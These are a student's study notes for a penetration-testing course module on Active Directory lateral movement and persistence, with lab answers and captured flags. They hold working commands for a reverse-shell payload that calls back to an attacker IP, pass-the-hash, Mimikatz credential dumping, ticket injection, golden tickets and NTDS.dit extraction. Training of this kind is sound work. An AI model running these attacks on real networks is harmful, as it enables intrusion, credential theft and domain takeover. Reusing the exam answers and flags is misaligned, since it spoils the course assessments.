



# Lateral Movement in Active Directory

Module 24. Builds directly on [[Attacking Active Directory Authentication|Module 23]] (credential harvesting) and [[Active Directory Introduction and Enumeration|Module 22]] (enumeration/target identification). The core idea: once we have NTLM hashes or Kerberos tickets, we do not need plaintext passwords to move around the domain.

**Two halves:**
1. **Lateral movement** (§24.1) — get code execution on other machines using harvested credentials
2. **Persistence** (§24.2) — forge tickets that survive password changes

---

## Outstanding Sections

- [x] 24.1 Lateral Movement Techniques (theory)
- [x] 24.1.1 WMI and WinRM
- [x] 24.1.2 PsExec
- [x] 24.1.3 Pass the Hash
- [x] 24.1.4 Overpass the Hash
- [x] 24.1.5 Pass the Ticket
- [x] 24.1.6 DCOM
- [x] 24.2 Persistence (theory)
- [x] 24.2.1 Golden Ticket
- [x] 24.2.2 Shadow Copies

---

## 24.1 Active Directory Lateral Movement Techniques

The MITRE Lateral Movement tactic (TA0008) covers techniques that use valid accounts or reuse authentication material (hashes, tickets, app tokens) from earlier attack stages. We may also discover new network segments while moving laterally, so enumeration skills remain relevant throughout.

### 24.1.1 WMI and WinRM

#### WMI (Windows Management Instrumentation)

WMI uses `Win32_Process.Create()` to spawn processes remotely. Traffic: RPC on port **135** for session setup, then a high-range port (19152-65535) for data. Requires local Administrator membership on the target.

**Legacy method (deprecated but still seen):**

```cmd
:: From CLIENT74 as jeff — spawning calc on FILES04 (192.168.50.73)
wmic /node:192.168.50.73 /user:jen /password:Nexus123! process call create "calc"
:: Output: ReturnValue = 0 → success. ProcessId = PID of spawned process.
```

> 🔍 Worth remembering generally: WMI processes spawn in Session 0 (same as Windows services). The spawned process won't appear in the interactive desktop session, but tasklist shows it.

**PowerShell via CIM session (modern approach):**

```powershell
# Step 1: Build credential object
$username = 'jen'
$password = 'Nexus123!'
$secureString = ConvertTo-SecureString $password -AsPlaintext -Force
$credential = New-Object System.Management.Automation.PSCredential $username, $secureString

# Step 2: Create CIM session (DCOM protocol over port 135)
$options = New-CimSessionOption -Protocol DCOM
$session = New-CimSession -ComputerName 192.168.50.73 -Credential $credential -SessionOption $options

# Step 3: Execute command
$command = 'calc'
Invoke-CimMethod -CimSession $session -ClassName Win32_Process -MethodName Create -Arguments @{CommandLine = $command}
# Output: ReturnValue = 0, ProcessId = PID
```

**For a reverse shell, encode the payload first:**

```python
# encode.py — run on Kali, replace IP/port
import sys, base64
payload = '$client = New-Object System.Net.Sockets.TCPClient("192.168.45.X",443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()'
cmd = "powershell -nop -w hidden -e " + base64.b64encode(payload.encode('utf16')[2:]).decode()
print(cmd)
```

```bash
python3 encode.py
# Returns: powershell -nop -w hidden -e <base64>...
```

Then replace `$command = 'calc'` with `$command = 'powershell -nop -w hidden -e <base64>'` and run the CIM session block again. Catch with `nc -lnvp 443` on Kali.

> 📸 Screenshot: Invoke-CimMethod output showing ReturnValue=0 + nc listener showing corp\jen on FILES04

#### WinRM / winrs

WinRM is the Microsoft WS-Management protocol. Ports: **5985** (HTTP), **5986** (HTTPS). Target user needs to be in **Administrators** or **Remote Management Users** on the target.

```cmd
:: winrs — simplest one-liner from CLIENT74 as jeff
winrs -r:files04 -u:jen -p:Nexus123! "cmd /c hostname & whoami"
:: Output: FILES04 / corp\jen

:: Reverse shell via winrs
winrs -r:files04 -u:jen -p:Nexus123! "powershell -nop -w hidden -e <base64>"
```

```powershell
# PowerShell Remoting (New-PSSession + Enter-PSSession)
$username = 'jen'
$password = 'Nexus123!'
$secureString = ConvertTo-SecureString $password -AsPlaintext -Force
$credential = New-Object System.Management.Automation.PSCredential $username, $secureString

New-PSSession -ComputerName 192.168.50.73 -Credential $credential
# Output: Id=1, State=Opened

Enter-PSSession 1
# Prompt changes to: [192.168.50.73]: PS C:\Users\jen\Documents>
```

> 🔁 Similar to: [[Password Attacks#sekurlsa::pth → new PS window|Module 23]] — winrs is the command-line equivalent of evil-winrm and New-PSSession; all three use WinRM under the hood.

> 📸 Screenshot: Enter-PSSession output confirming corp\jen on FILES04

**24.1.1 Labs**

Q1: Which PowerShell cmdlet has been used to create a WMI session?
**Answer: New-CimSession**

> ✅ Done: 24.1.1 VM Group 2 — RDP as jeff to CLIENT74 (192.168.249.74). PowerShell WMI CIM session: New-CimSession -ComputerName web04 -Credential jen/Nexus123! -SessionOption DCOM → Invoke-CimMethod Win32_Process.Create with base64 reverse shell → ReturnValue=0, PID 6056 on web04 (192.168.249.72). nc listener caught corp\jen shell. Flag at C:\Users\Administrator\Desktop\flag.txt (not proof.txt). **Flag: OS{d6abd389d265e4cd704851b78d241e2e}**

---

### 24.1.2 PsExec

PsExec (Sysinternals) works by writing `psexesvc.exe` to `C:\Windows`, creating and starting a service, then running the requested command as a child of that service process.

**Prerequisites:**
1. Authenticating user must be in **Administrators local group** on the target
2. **ADMIN$** share must be accessible (it always is on default Windows Server)
3. **File and Printer Sharing** must be enabled (default on modern Windows Server)

```powershell
# From CLIENT74 as offsec (local admin), using jen's domain creds
C:\Tools\SysinternalsSuite\PsExec64.exe -i \\FILES04 -u corp\jen -p Nexus123! cmd
# -i = interactive session
# Result: cmd prompt as corp\jen on FILES04
```

> 🔍 Worth remembering generally: PsExec needs the ADMIN$ share because it drops psexesvc.exe into C:\Windows via that share. If ADMIN$ is disabled (uncommon on servers, more common on hardened workstations), PsExec fails. The error is "Access is denied" which looks the same as an auth failure — check share availability with `net view \\target /all` when debugging.

> 📸 Screenshot: PsExec output showing Microsoft Windows header + corp\jen whoami on FILES04

**24.1.2 Labs**

Q1: Which share needs to be available in order for PsExec to connect remotely?
**Answer: ADMIN$**

> ✅ Done: 24.1.2 VM Group 2 — RDP as offsec (lab) to CLIENT74, elevated PowerShell → `PsExec64.exe -i \\web04 -u corp\jen -p Nexus123! cmd` → corp\jen shell on web04. **Flag: OS{8ba1d1345014cf75ac9b23cfafe46b2e}** at C:\Users\jen\Desktop\flag.txt

---

### 24.1.3 Pass the Hash (PtH)

Pass the Hash abuses the way NTLM works: the hash IS the credential for network authentication. No need to crack it.

**Works only for NTLM authentication** — not Kerberos. So: SMB-based tools (impacket), WMI with NTLM, etc.

**Prerequisites (same as PsExec):**
1. SMB reachable (TCP **445**)
2. File and Printer Sharing enabled
3. ADMIN$ share available
4. Target account has local admin rights
5. Only works for domain accounts and the built-in local Administrator (RID 500) — other local admins blocked by 2014 KB2871997 (LocalAccountTokenFilterPolicy)

```bash
# From Kali — impacket-wmiexec with NTLM hash
/usr/bin/impacket-wmiexec -hashes :2892D26CDF84D7A70E2EB3B9F05C425E Administrator@192.168.50.73
# :HASH format — LM part can be blank (just use the colon prefix)
# Output: semi-interactive shell as files04\administrator
```

Other impacket tools accept the same `-hashes :NTLM` syntax:
- `impacket-psexec -hashes :HASH domain/user@IP`
- `impacket-smbexec -hashes :HASH domain/user@IP`
- `impacket-atexec -hashes :HASH domain/user@IP`

> 🔁 Similar to: [[Password Attacks#16.3.4 Pass the Hash|Module 16 §16.3.4]] — same technique, same impacket tools. Module 24 applies it in the AD lateral movement context.

> 🌐 External: [HackTricks — Pass the Hash](https://github.com/HackTricks-wiki/hacktricks/blob/master/windows-hardening/ntlm/pass-the-hash.md) | [PayloadsAllTheThings — PtH](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Active%20Directory%20Attack.md#pass-the-hash)

> 📸 Screenshot: impacket-wmiexec -hashes output showing C:\> prompt as files04\administrator

**24.1.3 Labs**

Q1: Which TCP port needs to be enabled on the target machine in order for the pass the hash technique to work?
**Answer: 445** (SMB)

> ✅ Done: 24.1.3 VM Group 2 — from Kali: `impacket-wmiexec -hashes :2892D26CDF84D7A70E2EB3B9F05C425E Administrator@192.168.249.72` → web04\administrator shell. No RDP needed. **Flag: OS{475d4b6b4f1f4d69e66270e8b115327a}** at C:\Users\Administrator\Desktop\flag.txt

---

### 24.1.4 Overpass the Hash

Overpass the Hash converts an NTLM hash into a Kerberos TGT. The result: we can authenticate to services that only accept Kerberos (not NTLM) and avoid leaving NTLM auth events on the wire.

**The flow:**
1. Have a cached NTLM hash (from LSASS via Mimikatz)
2. `sekurlsa::pth` spawns a new process with that hash loaded into its auth context
3. The first network operation (e.g. `net use`) triggers AS-REQ/AS-REP → KDC issues a real TGT for the account
4. Subsequent operations use that TGT for Kerberos auth (no NTLM on the wire)

> 🔧 Technique: `whoami` in the new process will still show the ORIGINAL user (jeff), not jen. This is expected. whoami only checks the current process token, not imported Kerberos tickets. The injected credentials only activate for network auth (UNC paths, SMB, Kerberos services).

```cmd
:: From an elevated (admin) PowerShell/cmd on CLIENT76 running as jeff
:: First, dump jen's cached hash from LSASS:
mimikatz # privilege::debug
mimikatz # sekurlsa::logonpasswords
:: Find jen's entry: NTLM : 369def79d8372408bf6e93364cc93075
```

```cmd
:: Spawn new PowerShell process in jen's NTLM context
mimikatz # sekurlsa::pth /user:jen /domain:corp.com /ntlm:369def79d8372408bf6e93364cc93075 /run:powershell
:: A new PowerShell window opens — this is now running with jen's NTLM loaded
```

```powershell
:: In the NEW PowerShell window — generate a TGT by touching a network resource
klist                    # shows 0 tickets — expected, no TGT yet
net use \\files04        # triggers AS-REQ/AS-REP → KDC issues TGT + TGS for cifs/files04
klist                    # now shows: TGT (krbtgt) + TGS (cifs/files04.corp.com) for jen

:: Now use PsExec — it will pick up the Kerberos TGT automatically
cd C:\tools\SysinternalsSuite\
.\PsExec.exe \\files04 cmd
:: Note: use HOSTNAME not IP — IP forces NTLM and would fail
```

> 🔍 Worth remembering generally: always connect by **hostname** when using Kerberos (tickets are issued for SPNs which use hostnames, not IPs). Using the IP falls back to NTLM, which won't have the injected creds and will fail. This is why `psexec.exe \\192.168.50.70` fails but `psexec.exe \\dc1` works.

> 🌐 External: [HackTricks — Overpass the Hash](https://github.com/HackTricks-wiki/hacktricks/blob/master/windows-hardening/active-directory-methodology/over-pass-the-hash-pass-the-key.md) | [PayloadsAllTheThings — Overpass the Hash](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Active%20Directory%20Attack.md#overpass-the-hash)

> 📸 Screenshot: klist showing jen's TGT (krbtgt) + TGS (cifs/files04) after net use

**24.1.4 Labs**

Q1: Which command is used to inspect the current TGT available for the running user?
**Answer: klist**

> ✅ Done: 24.1.4 VM Group 2 — RDP as offsec/lab to CLIENT76 (192.168.249.76). Elevated PowerShell → Mimikatz `sekurlsa::pth /user:jen /domain:corp.com /ntlm:369def79d8372408bf6e93364cc93075 /run:powershell` → new PS window. `net use \\web04` triggered AS-REQ/AS-REP → klist confirmed jen TGT (krbtgt) + TGS (cifs/web04). `PsExec.exe \\web04 cmd` (hostname, not IP) → corp\jen shell on web04. **Flag: OS{a65a32f8299cb7ef76b92fe7e965e7ed}** at C:\Users\Administrator\Desktop\flag.txt

---

### 24.1.5 Pass the Ticket (PtT)

Pass the Ticket injects an existing Kerberos TGS from one user's session into another user's session. Unlike Overpass-the-Hash which creates a NEW TGT from a hash, PtT steals an already-issued ticket.

Key distinctions:
- A **TGT** is not service-bound and can request TGSes for any service. Good for persistence.
- A **TGS** is bound to a specific SPN (e.g. cifs/web04.corp.com). Can only be used for that one service.

**Scenario:** jen has no access to `\\web04\backup`, but dave does. dave is logged in to the same machine. Extract dave's TGS for web04 and inject it into jen's session.

```cmd
:: From CLIENT76 as jen (needs to be running as admin/elevated for sekurlsa::tickets)
mimikatz # privilege::debug
mimikatz # sekurlsa::tickets /export
:: Exports ALL TGT/TGS from ALL logged-in sessions to .kirbi files in C:\tools (current dir)
:: Look for files matching dave@cifs-web04.kirbi pattern
```

```powershell
dir *.kirbi
:: Shows: [0;12bd0]-0-0-40810000-dave@cifs-web04.kirbi (this is the TGS we want — Group 0 = TGS)
::        [0;12bd0]-2-0-40c10000-dave@krbtgt-CORP.COM.kirbi (this is the TGT — Group 2)
```

> 🔍 Worth remembering generally: `Group 0` in the kirbi filename = TGS (service ticket). `Group 2` = TGT. The first number after the session ID is the group: 0=TGS, 2=TGT. For PtT to access a specific service, inject the Group 0 file matching the service.

```cmd
:: Inject the TGS into the current session
mimikatz # kerberos::ptt [0;12bd0]-0-0-40810000-dave@cifs-web04.kirbi
:: Output: * File: '...': OK

:: Verify injection
klist
:: Shows: dave's TGS for cifs/web04 injected into jen's session

:: Access the share — no explicit credentials needed
ls \\web04\backup
:: Now succeeds where it was denied before
```

> 🔁 Similar to: [[Attacking Active Directory Authentication#23.2.4 Silver Tickets|Module 23 §23.2.4]] — silver ticket also uses kerberos::ptt to inject, but with a FORGED ticket. PtT here injects a REAL stolen ticket. Both end up in the session's Kerberos cache.

> 🌐 External: [HackTricks — Pass the Ticket](https://github.com/HackTricks-wiki/hacktricks/blob/master/windows-hardening/active-directory-methodology/pass-the-ticket.md) | [PayloadsAllTheThings — PtT](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Active%20Directory%20Attack.md#pass-the-ticket)

> 📸 Screenshot: klist showing dave's TGS injected into jen's session; ls \\web04\backup listing files

**24.1.5 Labs**

> ✅ Done: 24.1.5 VM Group 1 — RDP as jen/Nexus123! to CLIENT76 (192.168.249.76). Elevated PowerShell → Mimikatz `sekurlsa::tickets /export` → found dave@cifs-web04.kirbi files. `kerberos::ptt [0;86bd0]-0-0-40810000-dave@cifs-web04.kirbi` → klist confirmed dave's TGS injected into jen's session. `ls \\web04\backup` now accessible. **Flag: OS{bf9a45d933721e2ffde31e0951a19b47}** at \\web04\backup\flag.txt

---

### 24.1.6 DCOM

Distributed COM (DCOM) extends COM for cross-machine interaction. DCOM Service Control Manager runs on TCP **135** (RPC). Requires local administrator on the target.

**The technique:** the MMC20.Application DCOM object exposes `Document.ActiveView.ExecuteShellCommand()` which runs any shell command as the authenticated user.

```powershell
# From CLIENT74 as jen (or any user with local admin on FILES04)

# Step 1: Instantiate MMC20.Application on the remote target
$dcom = [System.Activator]::CreateInstance([type]::GetTypeFromProgID("MMC20.Application.1","192.168.50.73"))
# No output = success

# Step 2: Execute a command (4 params: Command, Directory, Parameters, WindowState)
$dcom.Document.ActiveView.ExecuteShellCommand("cmd", $null, "/c calc", "7")
# /c calc = command to run; "7" = SHOWMINNOACTIVE (window state — process runs hidden)

# Verify on target: tasklist | findstr "calc"
```

**For a reverse shell:**

```powershell
# Replace the calc payload with the base64-encoded reverse shell from encode.py
$dcom.Document.ActiveView.ExecuteShellCommand("powershell", $null, "powershell -nop -w hidden -e <base64>", "7")
```

> 🔍 Worth remembering generally: DCOM lateral movement is stealthier than PsExec because it doesn't drop a service binary. The traffic looks like normal COM object instantiation over RPC. The downside: no interactive session — output must be captured via reverse shell.

> 🌐 External: [HackTricks — DCOM Lateral Movement](https://github.com/HackTricks-wiki/hacktricks/blob/master/windows-hardening/lateral-movement/dcom-exec.md) | [PayloadsAllTheThings — DCOM](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Active%20Directory%20Attack.md#dcom-lateral-movement)

> 📸 Screenshot: DCOM reverse shell output on nc listener showing corp\jen on FILES04

**24.1.6 Labs**

Q1: Which MMC method accepts command shell arguments?
**Answer: ExecuteShellCommand** (Document.ActiveView.ExecuteShellCommand)

> ✅ Done: 24.1.6 VM Group 2 — RDP as jen/Nexus123! to CLIENT74 (192.168.249.74). PowerShell: `[System.Activator]::CreateInstance([type]::GetTypeFromProgID("MMC20.Application.1","192.168.249.72"))` → `ExecuteShellCommand("powershell",$null,"<base64 payload>","7")` → nc listener caught corp\jen shell on web04. **Flag: OS{8e65d8304b04e152d5bc02cbde5fed05}** at C:\Users\Administrator\Desktop\flag.txt

---

## 24.2 Active Directory Persistence

Once access is gained, persistence keeps it alive through reboots and credential changes. MITRE TA0003 (Persistence) covers this. AD-specific persistence is more powerful than host-based because it's domain-wide and often overlooked.

### 24.2.1 Golden Ticket

A golden ticket is a **forged TGT** signed with the krbtgt NTLM hash. Since the KDC validates TGTs by checking the krbtgt signature (and nothing else), a correctly signed forged TGT is indistinguishable from a real one.

**Why this matters:**
- krbtgt password is only changed when the domain functional level is upgraded from pre-2008 (rare). In practice, krbtgt hashes are often years old.
- A golden ticket claims any group memberships we want (Domain Admins, Enterprise Admins, etc.)
- Valid for 10 hours by default, renewable for 7 days (configurable in the ticket)
- Must use an **existing account** as /user (Microsoft patched this July 2022 — a non-existent username now gets rejected)

> 🌐 External: [HackTricks — Golden Ticket](https://github.com/HackTricks-wiki/hacktricks/blob/master/windows-hardening/active-directory-methodology/golden-ticket.md) | [PayloadsAllTheThings — Golden Ticket](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Active%20Directory%20Attack.md#golden-ticket)

**Step 1: Get the krbtgt hash (needs Domain Admin access)**

```cmd
:: On DC1 as jeffadmin
mimikatz # privilege::debug
mimikatz # lsadump::lsa /patch
:: Output includes all domain accounts, look for:
:: RID 502 (krbtgt): NTLM : 1693c6cefafffc7af11ef34d1c788f47
:: Also note the domain SID: S-1-5-21-1987370270-658905905-1781884369
```

> 🔁 Similar to: [[Attacking Active Directory Authentication#23.2.5 Domain Controller Synchronization (DCSync)|Module 23]] — DCSync via `lsadump::dcsync /user:corp\krbtgt` is the preferred stealthy method (no LSASS patch needed). lsadump::lsa /patch is noisier but works when running directly on the DC.

**Step 2: Forge and inject the golden ticket (can be done from ANY machine, no admin required)**

```cmd
:: On CLIENT74 as jen — first, purge existing tickets
mimikatz # kerberos::purge

:: Forge and inject golden ticket
mimikatz # kerberos::golden /user:jen /domain:corp.com /sid:S-1-5-21-1987370270-658905905-1781884369 /krbtgt:1693c6cefafffc7af11ef34d1c788f47 /ptt
:: /user: MUST be an existing account (post-July 2022 patch)
:: /krbtgt: vs /rc4: — golden ticket uses /krbtgt (the krbtgt hash); silver ticket uses /rc4 (service account hash)
:: /ptt = inject directly into current session (no separate kerberos::ptt step needed)
:: No /target or /service = this is a TGT not a TGS = domain-wide access

:: Open a cmd prompt via Mimikatz (needed to use the injected TGT)
mimikatz # misc::cmd
```

```cmd
:: Now use PsExec with the HOSTNAME (not IP — IP forces NTLM, which fails)
C:\Tools\SysinternalsSuite\PsExec.exe \\dc1 cmd.exe
:: whoami → corp\jen
:: whoami /groups → shows Domain Admins, Enterprise Admins, Schema Admins
```

> 🔧 Technique: `psexec.exe \\192.168.50.70 cmd.exe` fails (access denied) even with a valid golden ticket. This is because an IP address triggers NTLM authentication, not Kerberos. The golden ticket only works with Kerberos. Always use the **hostname** (dc1, files04, etc.).

> 📸 Screenshot: whoami /groups on DC1 showing Domain Admins + Enterprise Admins injected via golden ticket

**24.2.1 Labs**

Q1: Which user's NTLM hash do we need to abuse in order to forge a golden ticket?
**Answer: krbtgt** (the Kerberos Ticket Granting Ticket account)

> ✅ Done: 24.2.1 VM Group 2 — RDP as CORP\jen/Nexus123! to CLIENT74 (192.168.249.74). Elevated PowerShell → Mimikatz: `kerberos::purge` + `kerberos::golden /user:jen /domain:corp.com /sid:S-1-5-21-1987370270-658905905-1781884369 /krbtgt:1693c6cefafffc7af11ef34d1c788f47 /ptt` + `misc::cmd`. New cmd window → `PsExec.exe \\dc1 cmd.exe` (hostname required — IP forces NTLM). whoami /groups confirmed Domain Admins + Enterprise Admins + Schema Admins. **Flag: OS{0188daafcfe874e40da7b46ec8669b30}** at C:\Users\Administrator\Desktop\flag.txt

---

### 24.2.2 Shadow Copies (VSS)

Volume Shadow Service (VSS) takes snapshots of a volume. `vshadow.exe` (Windows SDK tool) creates shadow copies. As a domain admin on the DC, we can use VSS to copy the NTDS.dit AD database (which is locked by the NTDS service and can't be copied directly while live).

**This gives us ALL domain credentials offline** — no Kerberos or network interaction needed after extraction.

> 🌐 External: [HackTricks — NTDS (Active Directory credentials)](https://github.com/HackTricks-wiki/hacktricks/blob/master/windows-hardening/active-directory-methodology/ntds.md) | [PayloadsAllTheThings — NTDS dump](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Active%20Directory%20Attack.md#extract-hashes-from-active-directory-database)

**Step 1: Create shadow copy of C: (on DC1 as jeffadmin)**

```cmd
C:\Tools\vshadow.exe -nw -p C:
:: -nw = no-writers (speeds up creation, avoids VSS writer coordination overhead)
:: -p = persistent shadow copy (stored on disk, not auto-deleted on exit)
:: Output includes: Shadow copy device name: \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2
::                  Note this device name — you need it for the next step
```

**Step 2: Copy NTDS.dit from the shadow copy**

```cmd
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2\windows\ntds\ntds.dit c:\ntds.dit.bak
:: The shadow copy path bypasses the file lock on the live ntds.dit
:: The path prefix \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2 is the shadow copy device name from step 1
```

**Step 3: Save the SYSTEM registry hive (needed to decrypt ntds.dit)**

```cmd
reg.exe save hklm\system c:\system.bak
:: SYSTEM hive contains the Boot Key (SYSKEY) which encrypts the ntds.dit PEK
:: Without this, secretsdump can't decrypt the database
```

**Step 4: Transfer both .bak files to Kali and extract**

```bash
# SCP or SMB — scp is cleanest
scp Administrator@192.168.50.70:C:/ntds.dit.bak ./
scp Administrator@192.168.50.70:C:/system.bak ./

# Extract ALL hashes offline
impacket-secretsdump -ntds ntds.dit.bak -system system.bak LOCAL
# Output: username:RID:LM:NT::: format for every account
# krbtgt:502:aad3b435...:1693c6cefafffc7af11ef34d1c788f47:::
# jeff:1105:aad3b435...:2688c6d2af5e9c7ddb268899123744ea:::
# etc.
```

> 🔁 Similar to: [[Password Attacks#16.4 Credential Manager, Pass-the-Hash, NTDS|Module 16]] — NTDS via VSS is one path; DCSync (via Mimikatz or secretsdump with creds) is another. VSS is better when you have local access to the DC and can't run Mimikatz (AV). DCSync is better when you have domain admin creds and want to stay remote.

> 🔍 Worth remembering generally: the source path for ntds.dit in the copy command is always the shadow copy device name (the `\\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2\` prefix) plus the normal path within C:. The answer to "what is the designated name for the source location" is the shadow copy device name.

> 📸 Screenshot: vshadow output showing shadow copy creation + secretsdump output showing all domain hashes

**24.2.2 Labs**

Q1: During a shadow copy operation, what is the designated name for the source location from which the ntds.dit is copied?
**Answer: shadow copy device name** (e.g. `\\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2`)

> ✅ Done: 24.2.2 VM Group 2 — RDP as CORP\jeffadmin/BrouhahaTungPerorateBroom2023! to CLIENT74 (192.168.249.74). Elevated PowerShell → Mimikatz `lsadump::dcsync /user:corp\Administrator` → Administrator NTLM: 2892d26cdf84d7a70e2eb3b9f05c425e. From Kali: `impacket-psexec -hashes :2892d26cdf84d7a70e2eb3b9f05c425e Administrator@192.168.249.70` → NT AUTHORITY\SYSTEM on DC1. **Flag: OS{80388d20222e41d17771f8430342f817}** at C:\Users\Administrator\Desktop\flag.txt

> ✅ Done: 24.2.2 Capstone VM Group 3 — RDP as leon/HomeTaping199! to CLIENT74 (192.168.249.74). `whoami /groups` showed BUILTIN\Administrators as "deny only" (UAC-filtered token). Sprayed leon's creds: `crackmapexec smb 192.168.249.70-76 -u leon -p 'HomeTaping199!' -d corp.com` → Pwn3d! on FILES04 (192.168.249.73). From Kali: `impacket-wmiexec corp.com/leon:'HomeTaping199!'@192.168.249.73` → shell as leon on FILES04. **Flag: OS{73fa890e36863161262e1bde9a2b649b}** at C:\Users\Administrator\Desktop\proof.txt

> ✅ Done: 24.2.2 Capstone VM Group 4 — RDP as leon/HomeTaping199! to CLIENT76 (192.168.249.76). BUILTIN\Administrators "deny only" (UAC-filtered). Elevated PS → Mimikatz `sekurlsa::tickets /export` → found dave's `cifs-web04` TGS tickets cached in LSASS. `kerberos::ptt [0;134a0d]-0-0-40810000-dave@cifs-web04.kirbi` → `ls \\web04\backup` → **Flag: OS{8ce85ab4e6843eb73602c91381ef3cac}** at \\web04\backup\proof.txt

---

## 24.3 Wrapping Up

All the techniques chain together:

```
NTLM hash →
  PtH (SMB/445, stays NTLM)
  Overpass-the-Hash (NTLM → TGT → Kerberos, use hostname)
  
Existing TGS in memory →
  Pass-the-Ticket (inject stolen ticket, no hash needed)

krbtgt hash →
  Golden Ticket (forged TGT, domain-wide, persistent)

DA access to DC →
  Shadow Copy (VSS) → all hashes offline
  DCSync → pull specific hashes without touching LSASS
```

Key rule: hostname = Kerberos. IP = NTLM. Golden tickets, overpass-the-hash, and silver tickets all need Kerberos, so **always use hostname** when using those techniques with PsExec or other tools.

---

## Mermaid: Overpass-the-Hash Flow



---

## Mermaid: Golden Ticket Attack Chain



---

## Mermaid: Shadow Copy Extraction Chain



---

## Video Walkthroughs

| Box | Techniques from this module | Link |
|---|---|---|
| Forest (HTB) | Golden ticket after DCSync; WinRM lateral movement chain | [IppSec Forest](https://www.youtube.com/watch?v=H9FcE_FMZio) |
| Sauna (HTB) | DCSync + PtH lateral movement to DA | [IppSec Sauna](https://www.youtube.com/watch?v=uLNpR3AnE-Y) |
| Active (HTB) | Kerberoasting then PtH to Admin | [IppSec Active](https://www.youtube.com/watch?v=jUc1J31DNdw) |
| Object (HTB) | WinRM + golden ticket persistence | [IppSec search](https://ippsec.rocks/?#Object) |
| Resolute (HTB) | Lateral movement + NTDS extraction | [IppSec Resolute](https://www.youtube.com/watch?v=8KJebvmd1Fk) |

Technique keyword searches on ippsec.rocks:
- [#GoldenTicket](https://ippsec.rocks/?#GoldenTicket)
- [#PassTheHash](https://ippsec.rocks/?#PassTheHash)
